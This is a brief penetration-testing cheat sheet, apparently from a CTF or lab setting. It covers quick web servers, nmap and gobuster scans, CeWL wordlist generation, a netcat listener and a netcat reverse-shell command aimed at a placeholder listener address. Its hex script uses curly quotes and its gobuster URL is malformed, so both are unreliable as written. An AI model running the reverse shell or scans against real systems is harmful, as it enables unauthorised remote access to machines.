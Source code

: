 # CheatSheet

## Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```
### Ruby
```ruby
ruby -run -e httpd . -p 8000
```
## nmap
```shell-script
nmap -sC -sV -oA nmap/openadmin 10.10.10.171
```
## gobuster
```bash
gobuster dir -u http:10.10.10.10/ -w /path/to/wordlist
```
##  CeWL
```bash
cewl -d 2 -m 5 -w genwords.txt https://example.com
```
## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### Set Reverse Shell on Target
```bash
nc -e /bin/sh IP.OF.LISTENER 4000
```
## Usefuls Scripts
### HEX Converter
```bash
#!/bin/bash
echo $1 | tr -d “\n” | hexdump -e ‘16/1 “%02x “ “\n”
```
